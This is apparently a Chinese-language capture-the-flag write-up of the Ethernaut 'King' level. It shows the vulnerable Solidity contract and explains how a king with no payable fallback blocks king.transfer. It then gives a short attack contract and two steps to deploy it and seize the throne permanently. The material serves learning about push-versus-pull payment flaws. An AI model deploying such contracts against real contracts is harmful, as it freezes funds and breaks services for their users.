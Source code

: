 ```yaml
---
layout: post
title: King
---
```


# King
关于合约push和pull方式的区别
```solidity
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

### 代码分析
```solidity
function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```
上述代码中，当需要交换king的时候，会向原来的king发送eth，然后将king交换给新的用户。注意`king.transfer(msg.value)`
只有2300的gas，如果原来的king为一个合约，并且没有fallback方法，或有fallback方法但执行的代码太多或恶意代码事，
那么它可以使该合约的交换king方法永远不能成功。

### 攻击合约
```solidity
pragma solidity ^0.4.18;


contract KingAttack {

  function doYourThing(address _target) public payable {
    if(!_target.call.value(msg.value)()) revert();
  }

  // OMG NO PAYABLE FALLBACK!!
}
```

### 攻击方法
1. 发布攻击合约
2. 调用攻击合约doYourThing(address)，同时转让>1eth（原king的eth数量为1eth）